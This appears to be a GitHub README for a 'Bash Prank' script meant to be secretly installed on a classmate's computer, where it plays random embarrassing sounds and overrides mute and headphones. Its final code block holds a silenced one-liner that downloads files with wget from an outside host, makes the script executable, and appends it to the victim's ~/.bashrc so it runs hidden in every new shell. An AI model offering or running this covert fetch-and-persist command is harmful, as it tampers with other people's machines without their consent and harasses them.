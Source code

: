 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via
```bash
    ./al.sh & disown $!
```
Hide in their bashrc
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```

Do everything via: mkdir
```bash
    ~/.config/al >/dev/null 2>&1; cd ~/.config/al; wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh && echo ". ~/config/al/al.sh & disown $!" >> ~/.bashrc
```
